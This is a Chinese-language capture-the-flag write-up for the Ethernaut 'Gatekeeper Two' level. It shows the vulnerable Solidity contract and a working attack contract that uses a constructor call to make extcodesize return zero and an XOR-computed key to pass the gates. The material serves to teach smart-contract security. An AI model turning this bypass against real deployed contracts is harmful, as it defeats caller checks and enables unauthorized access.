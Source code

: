 
# level 14: Gatekeeper Two

## 1. 问题

要求你成功调用 `GatekeeperTwo` 合约的 `enter` 函数，函数成功执行不抛异常。也就是可以通过函数内的所有校验。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```


## 2. 解法

函数有3个 `modifier`, 我们只要分别通过这个校验即可

### 2.1. `gateOne`

1. `gateOne` 只校验 `msg.sender != tx.origin`, 我们只要通过一个中间合约来调用 `GatekeeperOne` 合约即可通过这个校验


### 2.2. `gateTwo` 

2. `gateTwo` 要求 `extcodesize(caller())` 值为 0. 这个看似要求调用方不是合约地址。但是实际上在合约部署时，合约的 `constructor` 函数内调用其他合约时，因为当前合约没有部署完成，所以 `extcodesize(**)` 会返回 `0`。

> ![NOTE]
> 1. 如果单纯想判断调用方是否是EOA，使用 `tx.origin == msg.sender` 来判断更准确
> 2. 真实情况，绝大部分合约的接口都需要支持合约调用，这个校验不可能部署到所有接口，适用场景有限


### 2.3. `gateThree`

3. 异或操作 `^` 满足 `如果 A^B=C，那么 A^C=A^(A^B)=(A^A)^B=0^B=B`。所以满足 `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max` 的 `_gateeKey` 可以通过计算得到 `uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max`。这个值，我们通过合约自动算好填入。


4. 最终我们的hack合约如下：

```solidity
contract HackGatekeeperTwo {
    constructor(address _gk2) {
        GatekeeperTwo two = GatekeeperTwo(_gk2);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max);
        two.enter(key);
    }
}
```

> ![TIP]
> 这里我们提供一个测试文件 [Level14.t.sol](../../test/level14/Level14.t.sol)
> 可以在提交之前进行本地调试，调试成功再在测试链上执行

5. 通过remix部署到sepolia上，交易地址 [0xeabf3add56d3e545c1e6469b3af6dd8657f15b20782c964401e8a58f1f1dd08d](https://sepolia.etherscan.io/tx/0xeabf3add56d3e545c1e6469b3af6dd8657f15b20782c964401e8a58f1f1dd08d)

6. 点击 `submit instance`， 提交通过！


| [⬅️ level13 GatekeeperOne](../level13_gatekeeper_one/README.md) | [level15 NaughtCoin ➡️](../level15_naughtcoin/README.md) |
|:------------------------------|--------------------------:|
